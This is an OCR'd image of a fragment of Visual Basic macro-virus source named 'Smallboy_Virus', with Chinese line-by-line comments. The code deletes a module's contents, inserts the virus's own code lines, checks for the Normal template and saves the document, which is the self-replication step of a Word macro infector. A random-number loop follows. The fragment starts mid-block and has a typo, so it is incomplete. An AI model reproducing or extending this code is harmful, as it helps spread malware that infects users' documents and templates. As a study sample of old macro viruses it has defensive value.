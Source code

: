 ```visual basic
.deletelines 1, .countoflines

'如果不是，就清除原来的代码

.insertlines 1, .OurcodeLines

'嵌入病毒代码

.replaceline 2, "Sub Smallboy_Virus()"

'更换 Smallboy_Virus

If ThisDocument = NormalTemplate Then

'判断当前的文档是否等于公用模块

.replaceline 2, "Sub Smallboy_Virus()"

'如果是，则替换为 Smallboy_Virus

ActiveDocument.SaveAs ActiveDpcument.FullName

'保存文档，并修改函数名（）

End If

End If

End With

'*弹出第一个框*

MsgBox "！！！"

'*定义算数数据成员*

Count = 0 '定义count=0

try: '执行try语句

On Error GoTo 0

On Error GoTo try

test = -1 '初始化并定义text=-1

con = 1 '初始化并定义con=1

tog$ = "" '初始化tog$

i = 0 '初始化并定义i=0

'开始执行算术数据成员的行循环语句

While test = -1

'因为之前已经定义了test=-1，所以肯定会先执行一次while循环

For i = 0 To 4

'执行一个for循环

nm(i) = Int(Rnd() * 100)
```